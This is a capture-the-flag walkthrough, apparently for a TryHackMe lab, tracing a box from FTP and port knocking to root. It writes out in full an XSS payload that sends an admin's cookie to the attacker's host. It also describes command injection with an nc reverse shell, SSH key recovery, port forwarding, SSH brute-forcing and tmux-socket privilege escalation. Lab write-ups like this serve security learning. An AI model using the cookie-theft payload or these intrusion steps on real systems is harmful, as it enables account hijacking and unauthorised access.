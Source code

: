 Started with a nmap scan 
```
21 vsftpd 3.0.3
22 OpenSSH 7.6p1
8080 Werkzueg 1.0.1 Python 2.7.18
```
There is a ftp running with anonymous login with 3 files
```
info.txt
jokes.txt
trace.pcapng
```
In the jokes file we get 2 possible usernames `Josh,Taylor,Paramore` and a email address `zac@misguided_ghosts.thm` looking at the pcap file took me a little bit to find this out but we need to port knock to find the ports needed we sort the pcap file by `192.168.236.131` `7864,8273,9241,12007,60753`  now that we have port `8080` open we get a webserver with a domain `misguided_ghosts.thm` this domain will work even though its against the RFC  going to run a gobuster scan now 
```
/console
/dashboard
/login
/photos
```
So now we only have a login page we can work with so trying possible usernames we have I found that the login is `zac:zac` now that were logged in it says we can make a post and the admin will view it in a couple of minutes after a lot of testing for xss payloads I found HTML entity encoding bypassed it 
```
&lt;sscriptcript&gt;var i = new Image(); i.src = "http://10.13.8.255:8000/" + document.cookie;&lt;/sscriptcript&gt;
```
and we get the cookie back after a few minutes `hayley_is_admin` now when we go to the file upload we can upload a file and its looking for a image and when we try to upload a file says we cant access the file so at first I tried LFI and the error stopped but still reflecting what I typed so I did command injection and it worked `;ls` and it list all the files in that folder we had to use nc with `{IFS}` in the spaces and put the `-e` after the port now we have access to the server as root if we go to the home folder there is one user called `zac` and there is a folder called `notes` and it has two files called `.id_rsa,.secret` but the secret file says its been encrypted with a cipher and a key we can do this manually or there are some scripts online that will work what were doing is called a plaintext attack now that I go the key `.........` we can go online and decode the `id_rsa` and get the real one and now we can SSH into the user `zac` and have a real shell now I ran linpeas and it shows that smb ports are open locally so we need to port forward the port and see what's on it `ssh -L 445:localhost:445 zac@10.10.110.15 -i id_rsa` and it has guest access and there is a share called `local` there is a file called `passwords.bak` maybe we can brute the ssh password for `hayley` and got the password `....!` we can run `visudo` as root but when I run it I get connection closed when running linpeas we seen root had a tmux session going with group permissions of `hayley` so went to the `/opt` folder and ran `tmux -S .details` and now we are root 